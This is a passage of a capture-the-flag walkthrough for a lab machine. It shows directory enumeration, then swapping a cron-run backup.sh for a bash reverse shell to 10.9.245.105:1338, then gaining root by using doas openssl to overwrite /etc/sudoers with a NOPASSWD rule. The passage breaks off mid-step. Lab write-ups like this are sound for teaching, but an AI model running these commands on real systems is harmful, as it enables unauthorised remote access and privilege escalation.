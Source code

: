 ```gobuster dir -u http://<target_ip>:445 -w /usr/share/wordlists/dirb/big.txt -t 40 -x php,txt,js,py```
<img width="834" height="384" alt="image" src="https://github.com/user-attachments/assets/5ff1527a-5b38-43ba-8303-47dd82273245" />

Nice! We have a cronjob for a backup.sh which runs as plot_admin. What does it do?

<img width="575" height="189" alt="image" src="https://github.com/user-attachments/assets/5c135484-2f06-48d2-92e2-df6df19273ad" />

What it does, doesn't really seem that interesting. But hey, look at that. Who owns the directory? We do as www-data. That means that even though the script is owned by plot_admin.
We can replace it with our own.

```
cd var/www/scripts
mv backup.sh backup.sh.old
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -i >& /dev/tcp/10.9.245.105/1338 0>&1" >> backup.sh
chmod +x backup.sh
```

Now that we have our own script, which has the same name and is executable. We just need to play the waiting game.

<img width="662" height="182" alt="image" src="https://github.com/user-attachments/assets/131e8cc9-1166-4273-91b7-14ab55ee58d2" />

Tada! Now we can just read the user.txt file and we'll be on our way to escalate to root.

```cat user.txt```

# getting root
So if you remember from before, we found out that plot_admin was able to run openssl as root through doas. How are we going to leverage this?
Well, let's see what we can find out from gtfobins.

https://gtfobins.github.io/gtfobins/openssl/

Apparently we should be able to get a root shell through making a new reverse shell through it. This didn't work for me, so let's skip that and go for another option.
Let's give ourselves the privilege to run anything with sudo without a password. Since we can both read and write as root with openssl.

We'll start with making a copy of the current sudoers file. So that we can restore it to a good version later.

```doas openssl enc -in /etc/sudoers```

<img width="828" height="516" alt="image" src="https://github.com/user-attachments/assets/06ac2c36-a5fe-4782-ad9b-151b7879d808" />

We'll add a line for our user there at the end. And save it on our attacker PC as sudoers.

Now let's overwrite the file on the server to give us the privileges.

```echo "plot_admin ALL=(ALL) NOPASSWD:ALL" | doas openssl enc -out /etc/sudoers```

<img width="816" height="266" alt="image" src="https://github.com/user-attachments/assets/cc3bb913-be13-48a9-86c4-bb3c0e464587" />

There we go! Now we have root! Let's just restore the sudoers file to working condition, by downloading it from our attacker PC.

```
Attacker: